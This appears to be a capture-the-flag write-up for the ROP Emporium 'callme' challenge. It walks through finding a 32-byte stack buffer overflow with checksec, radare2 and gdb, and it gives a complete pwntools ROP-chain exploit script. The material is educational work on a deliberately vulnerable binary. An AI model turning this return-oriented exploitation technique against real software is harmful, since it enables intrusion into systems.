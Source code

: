 ```yaml
---
title: ROPEmporium - Callme
date: 2022-08-17 23:20:31
tags: [ropemporium, rop]
---
```


## Introduction

Challenge Description

The goal of the challenge is understanding how more than one argument is passed in x64 function. The challenge can be downloaded from the author`s website [ropemporium](https://ropemporium.com)

<!-- more -->

> Reliably make consecutive calls to imported functions.
> Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

> **You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

check the binary protections enabled on the `callme` binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior. radare2 is a powerful disassembler/debugging tool used for examining the behavior of programs.

![](/images/ropemporium/callme_bug.png)

From the above image we use **pdf** command to disassemble a given function. Function **pwnme** looks similar to the previous challenges ret2win and split.

From the aDisassembled program, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![](/images/ropemporium/stack.png)

Next function is read function, which reads for user input and stores in the allocated buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From assembly code, we are reading `0x200` bytes from the standard input file descriptor and storing it in buffer, meaning we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, fill the buffer, overwrite rbp register and control the return address with desired address.

Because the system function receives one argument, look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![](/images/ropemporium/poprdi_callme.png)
Next is determine addresses of `callme_one`, `callme_two`, `callme_three` functions using gdb.

```nasm
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb)
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme, disassemble the target shared library **libcallme.so** as shown below.

```nasm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave
   0x000000000000092a <+272>:	ret
End of assembler dump.
(gdb)
```

From the disassembly code above, the function compares the arguments passed to the callme_one function. If string values are not equal to values passed to the `rdi`, `rsi` and `rdx` registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with controlled pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

Fully working rop chain code.

```python
import pwn

#Various setting for pwntools
pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)

callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Successful execution of the above code, correct flag is printed.

![](/images/ropemporium/callme-flag.png)

